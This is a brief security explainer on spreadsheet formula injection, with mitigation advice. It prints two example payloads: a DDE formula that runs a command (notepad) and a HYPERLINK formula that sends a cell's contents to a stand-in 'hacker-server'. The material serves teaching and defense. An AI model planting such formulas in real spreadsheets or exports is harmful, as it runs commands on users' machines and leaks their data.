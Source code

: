 # Formula injection

## How this works

When user open a spreadsheet (excel, csv etc), the spreadsheet program (excel, openoffice, libreoffice, etc) would try to process formulas (that begin with `=`, `+`, `-` or `@`).

## Example

```excel
=cmd|’ /C notepad’!’A1′ 
```

The DDE (Dynamic Data Exchange) function can execute application command.  
This would open the notepad program whenever user open the spreadsheet

```excel
=HYPERLINK("http://hacker-server?leak="&B2, "a link")
```

The `HYPERLINK` function can create a shortcut to a document in the network.  
This would leak the data in B2 to hacker server whenever user click to the cell.

## Mitigation

* Prohibit cells begin with `=`, `+`, `-`, `*`, `/` or `@`
* Add apostrophe `'` at the beginning of the cell to tell that this is not a formula
